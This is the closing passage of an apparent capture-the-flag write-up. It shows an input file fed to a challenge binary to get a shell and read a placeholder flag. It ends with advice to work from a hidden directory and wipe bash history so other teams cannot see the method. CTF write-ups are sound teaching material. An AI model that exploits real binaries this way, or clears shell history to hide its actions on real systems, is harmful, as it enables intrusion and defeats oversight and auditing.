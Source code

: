 ```
➜  /tmp  echo "1:NOENCRYPT" > key6
➜  /tmp  echo -n "winning" | base64 >> key6
➜  /tmp  ./level2 ./key6
# 

# cd /home/level2

# ls
level2	tokenfile

# cat tokenfile
RUX{not_the_actual_flag_but_you_still_win}

# exit
Congratulations. You're authenticated                                                           
➜  /tmp
```

BOOM, we get a shell, change back to the challenge directory and we can read the tokenfile which contains the original flag (I'm afraid I don't remember the actual flag).

We didn't explore the XOR function but evidentially we didn't need it to solve the challenge. Perhaps as the subject of a follow-up post.

As a final note, this challenge was hosted on a server accessible by all teams. That means that anyone watching the bash history can see what you're doing, making it a delicate operation to solve the challenge without revealing your methods. As a minimum, I'd recommend creating a hidden folder, working from there, then deleting the bash history.

```
➜  pwnable2  mkdir /.fd788743c5e54c528a6088c650cf8a9d
➜  pwnable2  cp level2 /.fd788743c5e54c528a6088c650cf8a9d

<pwn all the things>

➜  pwnable2  history -c
➜  pwnable2  cat /dev/null > ~/.bash_history
```

You know ... just to be sure.

Happy hunting.
